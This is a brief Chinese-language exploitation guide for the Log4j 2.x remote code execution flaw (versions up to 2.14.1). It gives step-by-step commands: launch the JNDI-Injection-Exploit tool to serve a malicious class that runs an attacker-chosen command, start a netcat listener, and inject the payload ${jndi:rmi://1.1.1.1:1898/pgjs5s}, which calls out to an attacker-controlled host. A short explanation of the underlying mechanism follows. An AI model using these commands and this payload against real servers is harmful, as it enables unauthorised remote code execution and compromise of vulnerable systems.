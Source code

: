 # Log4j RCE

## 利用条件：

- Apache Log4j 2.x <= 2.14.1

## 利用方法：

### 步骤一：架设恶意JNDI服务
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "远程class文件中要执行的命令" -A 服务器地址`

### 步骤二：开启监听
`nc -lvp 1898`

### 步骤三：POC
`${jndi:rmi://1.1.1.1:1898/pgjs5s}`

## 漏洞原理：
1. Log4j会把 `${}` 括号中的语句作为命令执行。
2. 注入攻击语句经过解析会先访问ldap服务器，然后由ldap解析出我们要的文件名，ldap向HTTP服务器请求获取这个文件，最后网站服务器在本地实例化并执行这个java类，即攻击者的攻击脚本得到执行。